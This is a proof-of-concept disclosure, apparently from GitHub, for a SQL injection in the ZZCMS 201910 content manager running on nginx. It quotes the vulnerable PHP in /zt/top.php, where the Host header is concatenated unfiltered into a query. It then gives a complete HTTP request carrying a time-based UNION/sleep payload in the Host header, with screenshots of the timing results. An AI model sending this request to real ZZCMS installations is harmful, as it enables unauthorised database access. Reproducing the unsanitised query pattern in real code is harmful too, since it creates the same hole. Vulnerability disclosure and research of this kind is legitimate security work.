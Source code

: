 ## ZZCMS sql injection in nginx server

## PoC by britzlieg

#### ZZCMS the 201910 version download page : 
http://www.zzcms.net/about/6.htm

#### zip installer:
http://www.zzcms.net/download/zzcms201910.zip

### vulnerability code:

In file `/zt/top.php`, line 5


```php
<?php
//echo $_SERVER['REQUEST_URI'];
$editor=isset($_REQUEST['editor'])?$_REQUEST['editor']:'';
$editor=substr($_SERVER['HTTP_HOST'],0,strpos($_SERVER['HTTP_HOST'],'.'));//从二级域名中获取用户名
$rs=query("select * from zzcms_userdomain where domain='".$_SERVER['HTTP_HOST']."' and passed=1 and del=0");//从顶级级域名中获取用户名
$row=num_rows($rs);
if (!$row){
	$row=fetch_array($rs);
	$editor=$row["username"];
}
$id=isset($_REQUEST['id'])?$_REQUEST['id']:0;
checkid($id,1);
...
```

in line 5,developer use `$_SERVER['HTTP_HOST']` in sql code without a filter, and this variable can be controled by attacker in nginx server. All page include `/zt/top.php` will be affected, here is an example named `/zt/news.php`.

```php
<?php
include("../inc/conn.php");
include("../inc/fy.php");
include("top.php");
include("bottom.php");
include("left.php");
...
```

#### POC:
```http
GET /zt/news.php?id=1&editor=cad HTTP/1.1
Host: 127.0.0.1:8211' union select sleep(8),1,2,3,4#-- '
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 186
Origin: http://127.0.0.1:8211
DNT: 1
Connection: close
Referer: http://127.0.0.1:8211/user/job.php?do=add
Cookie: bigclassid=0; province=%E5%8C%97%E4%BA%AC; city=%E5%B8%82%E8%BE%96%E5%8E%BF; __tins__713776=%7B%22sid%22%3A%201594217719660%2C%20%22vd%22%3A%205%2C%20%22expires%22%3A%201594220164112%7D; __51cke__=; __51laig__=14; bdshare_firstime=1594189355036; PHPSESSID=o78er4gbaan24nhv4a2oldnf18; UserName=test; PassWord=098f6bcd4621d373cade4e832627b4f6; admin=admin; pass=21232f297a57a5a743894a0e4a801fc3
Upgrade-Insecure-Requests: 1

jobname=1&sm=1&province=%E5%8C%97%E4%BA%AC&city=%E5%B8%82%E8%BE%96%E5%8C%BA&xiancheng=%E4%B8%9C%E5%9F%8E%E5%8C%BA&action=add&Submit=%E5%A1%AB%E5%A5%BD%E4%BA%86%EF%BC%8C%E5%8F%91%E5%B8%83

```


#### inject code
![](https://rawcdn.githack.com/britzlieg/POC/68c98bcf9159677c24aa102620416513868a27bf/res/zzcms201910/a.jpg)

#### sleep(8)
![](https://rawcdn.githack.com/britzlieg/POC/68c98bcf9159677c24aa102620416513868a27bf/res/zzcms201910/1.jpg)

#### sleep(1)
![](https://rawcdn.githack.com/britzlieg/POC/68c98bcf9159677c24aa102620416513868a27bf/res/zzcms201910/2.jpg)